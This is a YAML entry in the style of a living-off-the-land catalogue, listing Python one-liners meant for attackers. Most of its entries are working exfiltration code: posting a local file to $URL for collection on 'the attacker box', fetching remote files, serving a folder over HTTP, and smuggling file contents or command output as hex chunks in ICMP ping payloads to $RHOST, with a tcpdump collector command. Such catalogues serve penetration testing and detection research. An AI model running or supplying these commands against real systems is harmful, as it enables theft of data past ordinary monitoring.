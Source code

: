 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["$URL"], e["$LFILE"])'
  server:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  

        Send local file content over ICMP using hex-encoded payloads.
      code: |
        python -c 'import sys,os;d=open("$FILE","rb").read();
        d=d.hex() if sys.version_info[0]==3 else d.encode("hex");
        [os.system("ping -c1 -p "+d[i:i+16]+" $RHOST") for i in range(0,len(d),16)]'

    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        python -c 'import sys,os;d=os.popen("$CMD").read();
        d=d.encode().hex() if sys.version_info[0]==3 else d.encode("hex");
        [os.system("ping -c1 -p "+d[i:i+16]+" $RHOST") for i in range(0,len(d),16)]'
---
```

